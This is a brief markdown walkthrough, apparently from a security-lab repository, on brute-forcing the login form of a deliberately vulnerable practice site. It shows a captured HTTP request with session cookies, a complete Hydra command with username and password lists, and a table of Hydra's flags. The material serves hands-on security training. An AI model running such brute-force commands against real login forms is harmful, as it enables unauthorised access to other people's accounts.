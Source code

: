 # bruteforce 


## intercept the req using `burp`

## cheat sheet: [Github](https://github.com/frizb/Hydra-Cheatsheet)

```html
GET /vulnerabilities/brute/?username=user&password=pass&Login=Login HTTP/1.1
Host: hackmylab.xyz
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hackmylab.xyz/vulnerabilities/brute/?username=a&password=d&Login=Login
Cookie: PHPSESSID=lenmrukag1tiq56nnj38jbdq23; security=low
Upgrade-Insecure-Requests: 1
```

## brute-force with Hydra

command is:

hydra 35.238.134.163 -L username -P password http-get-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:incorrect:H=Cookie: PHPSESSID=b50pgnon2mojtfqv410pcrhes6;security=low"

|args|details|
|---|---|
|-L | userlist|
|-l | single user|
|-P | password list|
|-p | single pass|
|http-get-form| http req method|
|pass the URL with |^user^ for username ^pass^ for password|
|H | Headers|

